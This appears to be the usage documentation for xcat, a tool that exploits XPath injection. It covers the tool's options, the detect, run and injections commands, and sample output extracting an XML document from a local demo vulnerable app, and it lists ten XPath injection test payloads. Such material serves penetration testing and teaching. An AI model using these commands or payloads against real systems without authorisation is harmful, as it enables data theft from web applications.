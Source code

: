 # Common options

All commands except `ip` take the same arguments. These describe the attack you are making, 
and allows xcat to explore it and work out what features it can use.

At _minimum_ you need to supply:

- A URL to attack (`url`)
- A target parameter which is vulnerable to XPath injection (`target_parameter`)
- A value for this parameter, and optionally others if required (`parameters`)
- A string or a status code that is present in the response if the condition is True (`--true-string` and `--true-code`)

To attack the [example vulnerable application](https://github.com/orf/xcat_app) you would use:

`xcat run http://localhost:4567/ query query=Rogue --true-string=Lawyer` 

This instructs `xcat` that:

- The vulnerable URL is `http://localhost:4567/`
- The vulnerable parameter is `query`
- The parameters to pass to the URL are `query=Rogue`
- The true condition is `Lawyer` being present in the response

## Additional options

#### `--headers`

This argument can be used to send custom headers, including cookies. It should be a file path to a plain text 
file containing lines in the following format:

```text
Header-Name: header-value
```

**Example:** `xcat run ... --headers=my-header-file.txt`

#### `--body`

This argument is a path to a file containing a request body to send. This is helpful if you are exploiting a 
POST request that has a vulnerable URL parameter, but also require a POST body to be sent. The file contents 
are sent as-is.

**Example:** `xcat run ... --headers=my-request-body.txt`

#### `--encode`

xcat currently supports manipulating either URL or form parameters. This allows you to switch between 
sending the exploit payload via the POST body or URL arguments.

**Example:** `xcat run ... --encode=form`

#### `--fast`

When this flag is present then xcat will only retrieve the first 15 characters of strings. This can drastically speed
up retrieval in documents that contain very large strings.

**Example:** `xcat run ... --fast`

#### `--concurrency`

This parameter limits the number of concurrent connections xcat can make. Setting it too low will slow down 
exploitation, but can reduce the load on the target server.

**Example:** `xcat run ... --concurrency=10`

#### `--enable/--disable`

xcat attempts to intelligently detect what features the target server supports and uses these to speed up 
retrieval. These flags let you force enable or disable these features.

**Example:** `xcat run ... --enable=substring-search`

#### `--oob`

Enables the `oob` server. For more info see [the oob server documentation.](OOB-server.md)

**Example:** `xcat run ... --oob=$EXTERNAL_IP:$EXTERNAL_PORT`

# detect

This command will print out what injection xcat has detected, as well as a list of features and their status. You 
can use this to quickly explore an injection and different parameter values before commencing an attack.

```shell
$ xcat detect http://localhost:4567/ query query=Rogue --true-string=Lawyer
function call - last string parameter - single quote
Example: /lib/something[function(?)]

Detected features:
xpath-2: True
xpath-3: False
xpath-3.1: False
normalize-space: True
substring-search: True
codepoint-search: True
environment-variables: False
document-uri: True
base-uri: True
current-datetime: True
unparsed-text: False
doc-function: True
linux: False
expath-file: False
saxon: False
oob-http: False
oob-entity-injection: False
``` 

# run

This is the core function of xcat. It will retrieve the whole document that is being queried with the
vulnerable xpath expression.

```shell
$ xcat run http://localhost:4567/ query query=Rogue --true-string=Lawyer
<root first="1" second="2" third="">
	<!--My lovely library-->
	<books>
		<book>
			<title>
				Rogue Lawyer
			</title>
			<author>
				John Grisham
			</author>
...
```

# shell

This is one of the most powerful features of xcat. 
Please see [the dedicated `shell` documentation here](the-shell.md)


# injections

This command prints out all the injections xcat currently can use, along with the sample expressions 
xcat will use to test if this injection works.

```shell
$ xcat injections
Supports 10 injections:
Name: integer
 Example: /lib/book[id=?]
 Tests:
   ? and 1=1 = passes
   ? and 1=2 = fails
Name: string - single quote
 Example: /lib/book[name='?']
 Tests:
   ?' and '1'='1 = passes
   ?' and '1'='2 = fails
Name: string - double quote
 Example: /lib/book[name="?"]
 Tests:
   ?" and "1"="1 = passes
   ?" and "1"="2 = fails
Name: attribute name - prefix
 Example: /lib/book[?=value]
 Tests:
   1=1 and ? = passes
   1=2 and ? = fails
Name: attribute name - postfix
 Example: /lib/book[?=value]
 Tests:
   ? and not 1=2 and ? = passes
   ? and 1=2 and ? = fails
Name: element name - prefix
 Example: /lib/something?/
 Tests:
   .[true()]/? = passes
   .[false()]/? = fails
Name: element name - postfix
 Example: /lib/?something
 Tests:
   ?[true()] = passes
   ?[false()] = fails
Name: function call - last string parameter - single quote
 Example: /lib/something[function(?)]
 Tests:
   ?') and true() and string('1'='1 = passes
   ?') and false() and string('1'='1 = fails
Name: function call - last string parameter - double quote
 Example: /lib/something[function(?)]
 Tests:
   ?") and true() and string("1"="1 = passes
   ?") and false() and string("1"="1 = fails
Name: other elements - last string parameter - double quote
 Example: /lib/something[function(?) and false()] | //*[?]
 Tests:
   ?") and false()] | //*[true() and string("1"="1 = passes
   ?") and false()] | //*[false() and string("1"="1 = fails
```

# ip

This command is a convenience function to get your current external IP address. It takes 
no arguments.

```shell
$ xcat ip
123.210.60.90
```
